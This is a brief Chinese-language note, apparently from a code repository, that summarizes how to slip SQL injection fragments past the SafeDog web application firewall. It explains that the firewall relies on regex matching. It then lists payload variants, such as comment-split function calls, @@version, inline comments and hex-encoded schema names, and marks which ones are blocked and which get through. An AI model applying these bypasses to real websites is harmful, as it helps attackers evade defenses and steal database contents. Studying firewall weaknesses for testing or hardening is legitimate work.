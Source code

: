 ### 绕过安全狗总结 ###

- - -
安全狗主要使用正则匹配请求的URL，如果正则匹配到了
就代表存恶意攻击，将进行拦截

详细的我写在博客里面了：https://422926799.github.io/posts/aafbd292.html

```
user() #安全狗拦截
user/**/() #安全狗不拦截
version() #安全狗拦截
@@version #安全狗不拦截
select * from xxx #只要这条语句为True就一定会被安全狗拦截
select concat(/*!table_name*/) from information_Schema.tables where table_schema=十六进制编码的数据库名 #安全狗不拦截
updatexml() #正则貌似是,(.*?), #只要有逗号必拦截，其他的报错注入也拦了
```